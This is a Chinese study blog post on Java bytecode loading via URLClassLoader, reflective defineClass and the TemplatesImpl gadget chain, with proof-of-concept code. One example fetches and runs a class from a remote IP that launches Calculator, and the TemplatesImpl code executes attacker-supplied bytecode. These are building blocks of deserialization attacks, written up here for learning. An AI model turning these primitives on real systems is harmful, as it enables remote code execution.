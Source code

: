 # [Java安全] Templatesimpl与字节码


# Java字节码

![image-20221003145149412](https://tuchuang.huamang.xyz/img/image-20221003145149412.png)

# URLClassLoader远程加载

在前面学习classloader的时候就学习到了URLClassLoader，进行远程加载类

比如我在远程服务器写一个这个类

```java
public class Test {
    public static void main(String[] args){
        try{
            Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } 
        catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

然后在服务端远程加载这个类

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class URLClassLoaderTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        URL url = new URL("http://101.35.98.118:12424/javatest/");
        URLClassLoader cl = new URLClassLoader(new URL[]{url});
        Class c = cl.loadClass("Test");
        c.newInstance();
    }
}
```

>正常情况下，Java会根据配置项 sun.boot.class.path 和 java.class.path 中列举到的基础路径（这 些路径是经过处理后的 java.net.URL 类）来寻找.class文件来加载，而这个基础路径有分为三种情况：
>
> URL未以斜杠 / 结尾，则认为是一个JAR文件，使用 JarLoader 来寻找类，即为在Jar包中寻 找.class文件
>
>URL以斜杠 / 结尾，且协议名是 file ，则使用 FileLoader 来寻找类，即为在本地文件系统中寻 找.class文件
>
>URL以斜杠 / 结尾，且协议名不是 file ，则使用最基础的 Loader 来寻找类 
>
>我们正常开发的时候通常遇到的是前两者，那什么时候才会出现使用 Loader 寻找类的情况呢？当然是 非 file 协议的情况下，最常见的就是 http 协议。



# defineClass直接加载

加载字节码，无论是远程还是本地，最后都会到defineClass，p牛这里画了一个图非常直观

![image-20221003150244511](https://tuchuang.huamang.xyz/img/image-20221003150244511.png)

- loadClass 的作用是从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机 制），在前面没有找到的情况下，执行 findClass 

- findClass 的作用是根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在 本地文件系统、jar包或远程http服务器上读取字节码，然后交给 defineClass 

- defineClass 的作用是处理前面传入的字节码，将其处理成真正的Java类

他决定了如何将一段字节流转变成一个Java类，Java 默认的 ClassLoader#defineClass 是一个native方法，逻辑在JVM的C语言代码中

但是要注意的是，defineClass调用的时候，**类对象不会被初始化**，所以如果要使用defineClass来加载类的时候，需要想办法**调用构造方法**

这里，因为系统的 ClassLoader#defineClass 是一个保护属性，所以我们无法直接在外部访问，不得不使用**反射**的形式来调用

```java
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class defineClass {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass",String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);

        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
        Class hello = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(),"Hello",code,0,code.length);
        hello.newInstance();

    }
}


```

![image-20221003154444756](https://tuchuang.huamang.xyz/img/image-20221003154444756.png)



# TemlatesImpl加载字节码

defineClass因为太底层了，一般开发是不会直接使用他的，但是不代表就没有价值了，比如这个TemlatesImpl里面就用到了defineClass，下面来分析这个利用链

在TemplatesImpl里定义了一个TransletClassLoader，这里面最后一行重写了defineClass方法，而且没有声明定义域，那就是默认default，可以在当前类和同包里被利用

![image-20221003161442834](https://tuchuang.huamang.xyz/img/image-20221003161442834.png)

那我们就找TemplatesImpl哪里调用了`TransletClassLoader#defineClass()`，找引用，发现在`TemplatesImpl#defineTransletClasses()`调用了，但是这个作用域是private，所以我们再找一下哪里调用了这个

![image-20221003162153066](https://tuchuang.huamang.xyz/img/image-20221003162153066.png)

继续找引用，找到个getTransletInstance，还是private

![image-20221003162540336](https://tuchuang.huamang.xyz/img/image-20221003162540336.png)

继续找引用，在newTransformer找到唯一的应用，而且newTransFormer是public，可以在外面被调用了

![image-20221003162637511](https://tuchuang.huamang.xyz/img/image-20221003162637511.png)

所以链子就出来了

```java
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```

现在我们来构造POC，看看如何把序列化数据放进去执行defineClass，从后往前看，code作为唯一的传输传入

![image-20221003164319235](https://tuchuang.huamang.xyz/img/image-20221003164319235.png)

往上走，首先是TransletClassLoader对象的创建，这里的第二个参数需要我们传入不然会报错，只需要创建一个对象传进去就行了

```java
private transient TransformerFactoryImpl _tfactory = null;
```

![image-20221003172520085](https://tuchuang.huamang.xyz/img/image-20221003172520085.png)

这里循环传入，数据来源是`_bytecodes[i]`，他是私有成员变量，可以控制

![image-20221003164600033](https://tuchuang.huamang.xyz/img/image-20221003164600033.png)

但是仅有`_bytecode`是不行的，这里我们往上走会发现，这里要进去这个方法还有条件，我们必须保证`_name`不为空，否则就不会进入defineTransletClasses

![image-20221003165638514](https://tuchuang.huamang.xyz/img/image-20221003165638514.png)

所以我们需要为TemplatesImpl设定三个值，由于是私有属性，我们需要用到反射`setAccessible`去设置私有成员变量

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.util.Base64;

public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
        setFieldValue(templates,"_name","test");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }

    //利用反射给私有变量赋值如下
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

但是我们拿刚刚defineClass的序列化数据直接跑起来发现，他没有执行命令

原因是TemplatesImpl对加载的字节码是有要求的：这个字节码对应的类必须是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类

所以我们需要构造一个继承了`AbstractTranslet`的类，在他的构造方法里去写我们要执行的代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TempClass extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public TempClass(){
        super();
        System.out.println("Hello TemplatesImpl");
    }
}

```

![image-20221003173827012](https://tuchuang.huamang.xyz/img/image-20221003173827012.png)



